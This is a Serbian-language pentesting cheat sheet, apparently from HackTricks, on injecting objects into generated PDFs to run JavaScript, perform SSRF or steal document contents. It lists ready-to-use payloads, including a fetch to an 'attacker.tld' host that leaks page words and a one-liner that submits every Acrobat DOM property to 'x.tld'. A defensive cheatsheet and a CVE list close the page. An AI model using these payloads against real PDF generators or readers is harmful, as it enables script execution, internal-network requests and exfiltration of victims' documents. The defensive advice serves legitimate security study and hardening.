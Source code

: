 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**Ako se vaš unos odražava unutar PDF datoteke, možete pokušati da injektujete PDF podatke kako biste izvršili JavaScript, izvršili SSRF ili ukrali sadržaj PDF-a.**
PDF sintaksa je izuzetno permisivna – ako možete da izađete iz stringa ili rečnika koji ugrađuje vaš unos, možete dodati potpuno nove objekte (ili nove ključeve u istom objektu) koje Acrobat/Chrome rado obrađuje.
Od 2024. godine, talas izveštaja o greškama je pokazao da *jedna neizbegnuta zagrada ili obrnutu kosu crtu je dovoljno* za potpuno izvršavanje skripte.

## TL;DR – Moderni Tok Napada (2024)
1. Pronađite bilo koju vrednost koju kontroliše korisnik koja se završava unutar **(stringa sa zagradama)**, `/URI ( … )` ili `/JS ( … )` polja u generisanom PDF-u.
2. Injektujte `) ` (zatvarajući string) nakon čega sledi jedan od primitiva ispod i završite sa još jednom otvorenom zagradom kako biste zadržali sintaksu validnom.
3. Dostavite zlonamerni PDF žrtvi (ili backend servisu koji automatski prikazuje datoteku – odlično za slepe greške).
4. Vaš payload se izvršava u PDF pregledniku:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (vidi CVE-2024-4367)
* Acrobat → Potpuni JavaScript API (može eksfiltrirati proizvoljne sadržaje datoteka sa `this.getPageNthWord`)

Primer (otmica linka za anotaciju):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*Prva `)` zatvara originalni URI string, zatim dodajemo novi **Action** rečnik koji Acrobat izvršava kada korisnik klikne na link.*

## Korisne injekcione primitive
| Cilj | Payload Snippet | Napomene |
|------|-----------------|-------|
| **JavaScript na otvaranju** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Izvršava se odmah kada se dokument otvori (radi u Acrobat-u, ne u Chrome-u). |
| **JavaScript na linku** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Radi u PDFium-u i Acrobat-u ako kontrolišete `/Link` anotaciju. |
| **Slepa ekfiltracija podataka** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Kombinujte sa `this.getPageNthWord` unutar JS da ukradete sadržaj. |
| **Server-Side SSRF** | Isto kao gore, ali ciljate internu URL adresu – odlično kada PDF renderuje back-office usluge koje poštuju `/URI`. |
| **Prelom linije za nove objekte** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | Ako biblioteka dozvoljava umetanje karaktera za novi red, možete kreirati potpuno nove objekte. |

## Trik sa slepom enumeracijom
Gareth Heyes (PortSwigger) je objavio jedan-liner koji enumeriše svaki objekat unutar nepoznatog dokumenta – koristan kada ne možete videti generisani PDF:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
Kod prolazi kroz Acrobat DOM i pravi izlazne zahteve za svaku par svojstvo/vrednost, dajući vam *JSON-ish* ispis datoteke. 
Pogledajte belešku “Portable Data **ex**Filtration” za punu tehniku.

## Real-World Bugs (2023-2025)
* **CVE-2024-4367** – Arbitrarna JavaScript izvršenja u Firefox-ovom PDF.js pre 4.2.67 zaobišla je sandbox sa kreiranom `/JavaScript` akcijom.
* **Bug bounty 2024-05** – Veliki fintech je dozvolio beleške o fakturama koje su dostavili kupci, a koje su završile u `/URI`; izveštaj je plaćen $10k nakon demonstracije SSRF na internom metapodatkovnom hostu koristeći `file:///` URI.
* **CVE-2023-26155** – `node-qpdf` komanda-injekcija putem nefiltrirane PDF putanje pokazuje važnost eskapiranja obrnutih kosa crta i zagrada čak i *pre* PDF sloja.

## Defensive Cheatsheet
1. **Nikada ne spajajte sirovi korisnički unos** unutar `(`…`)` stringova ili imena. Eskapirajte `\`, `(`, `)` kako zahteva §7.3 PDF specifikacije ili koristite heksadecimalne stringove `<...>`.
2. Ako pravite linkove, preferirajte `/URI (https://…)` koje ste *potpuno* URL-enkodirali; blokirajte `javascript:` sheme u klijentskim preglednicima.
3. Uklonite ili validirajte `/OpenAction`, `/AA` (dodatne akcije), `/Launch`, `/SubmitForm` i `/ImportData` rečnike prilikom post-procesiranja PDF-ova.
4. Na serverskoj strani, renderujte nepouzdane PDF-ove sa *headless konvertorom* (npr. qpdf –decrypt –linearize) koji uklanja JavaScript i spoljne akcije.
5. Održavajte PDF preglednike ažuriranim; PDF.js < 4.2.67 i Acrobat Reader pre jula 2024. zakrpe omogućavaju trivijalno izvršavanje koda.

## References
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (ažurirano maj 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (apr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
